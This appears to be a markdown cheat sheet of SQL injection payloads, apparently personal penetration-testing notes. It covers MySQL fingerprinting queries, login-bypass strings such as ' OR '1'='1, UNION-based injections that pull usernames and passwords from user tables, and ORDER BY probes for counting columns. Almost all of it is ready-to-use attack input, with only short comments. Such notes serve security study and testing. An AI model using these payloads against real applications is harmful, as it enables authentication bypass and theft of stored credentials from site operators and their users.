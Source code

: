 ## MySQL Fingerprinting
```sql
SELECT @@version    Works with MySQL and MSSQL
SELECT POW(1,1)     Will return 1 with MySQL Error-out with other DBMS
SELECT SLEEP(5)     Delays 5 sec with MySQL only no delay with other DBMS
```

## Login evasion
```
admin')--
admin' OR 1=1-- -
' OR '1'='1
' OR '1'='1';-- -
' OR true -- -
```

## Union SQLi
```sql
# The data types of the selected columns on all positions should be the same
# and the two queries should return the same number of columns
SELECT * FROM ports;
SELECT * FROM ships;
SELECT * FROM ports UNION SELECT * FROM ships;

# We can inject a UNION query into the input, such that rows from another table are returned:
# The above query would return username and password entries from the passwords table, assuming the products table has two columns.
SELECT * FROM products WHERE product_id = '1'
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, password FROM passwords-- '

SELECT * FROM products WHERE product_id = '1' UNION SELECT username, 2 FROM passwords
# it will sometimes be necessary to inject junk in as filling if the original table has more columns than needed
# if injecting junk, 'NULL' fits all data types.
SELECT * FROM products WHERE product_id = '1' UNION SELECT username, 2, 3, 4 FROM passwords

# leaking some stuff
' UNION SELECT * FROM users-- -
' UNION SELECT 1,username,password,user() FROM users-- -
```

## Detect number of columns with order clause

use order by until the column number doesn't exist
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
' ORDER BY 5-- -
```
